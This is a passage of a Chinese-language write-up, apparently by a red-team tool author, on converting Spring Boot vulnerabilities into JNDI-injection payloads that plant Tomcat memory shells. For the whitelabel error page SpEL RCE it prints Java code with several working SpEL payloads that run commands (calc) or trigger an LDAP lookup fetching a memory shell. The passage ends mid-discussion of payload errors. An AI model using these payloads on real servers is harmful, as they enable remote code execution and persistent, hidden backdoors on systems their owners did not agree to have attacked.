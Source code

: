 
第一类是最容易实现的JNDI内存马注入的，遇到的问题也是最少的。


### 第二类


第二类是都需要对环境进行重启操作，在测试过程中很容易对环境造成不可逆的后果。所以对此并没有进行整合，未来也不会集成。


### 第三类


第三类是无法直接利用JNDI，并且Check list说明里面都是反弹shell、弹计算器之类操作，这对于红队的是意义很小。



---

## 漏洞规范化


写工具首先得每一个漏洞的Payload进行规范，目前支持所有的方式就是将第三类转化支持JNDI注入的方式。将第三类漏洞进行转化是繁琐的工作，每一个漏洞目前网上公开的文章都是基于check list编写的。此过程中遇到很多问题，一度曾放弃几种方式。一开始设想过支持回显，但后来发现，反序列化执行操作都是用服务器发起了，无法做到回显，压根行不通。所有后面只做了内存马，目前只支持一种内存马后期会考虑支持更多类型的内存马。






### [whitelabel error page SpEL RCE](https://github.com/LandGrey/SpringBootVulExploit#0x01whitelabel-error-page-spel-rce)


SpEL RCE 最大问题就是如何用一句话的方式实现JNDI的方式。在**_天下大木头_**的指导下我获得提示：
```java
javax.naming.InitialContext context = new InitialContext();
context.lookup("ldap://127.0.0.1:1389/basic/TomcatMemShell3");
```
根据上面尝试，在测试的过程遇到某名奇妙的一些问题。
```java
public class spel {
    public static void main(String[] args) {
        String poc = "new java.lang.ProcessBuilder(new java.lang.String(new byte[]{99,97,108,99})).start()";
        String rmi = "T(javax.naming.InitialContext).lookup(\"ldap://127.0.0.1:1389/basic/TomcatMemShell3\")";
        String ldap = "new javax.naming.InitialContext().lookup(\"ldap://127.0.0.1:1389/basic/TomcatMemShell3\")";
        String calc = "T(java.lang.Runtime).getRuntime().exec(new String(new byte[]{ 0x63,0x61,0x6c,0x63 }))";
        String poc2 = "java.lang.Class.forName(\"javax.naming.InitialContext\").getMethod(\"lookup\", String.class).invoke(Class.forName(\"javax.naming.InitialContext\").newInstance(),\"ldap://127.0.0.1:1389/basic/TomcatMemShell3\")";
        SpelExpressionParser parser = new SpelExpressionParser();
        Expression expression = parser.parseExpression(rmi);
        StandardEvaluationContext context = new StandardEvaluationContext();
        expression.getValue(context);


    }
}
```
使用payload rmi时会报找不到lookup方法
![image-20211228173823526](https://cdn.jsdelivr.net/gh/SummerSec/Images//23u3823ec23u3823ec.png)
使用payload poc2也报错
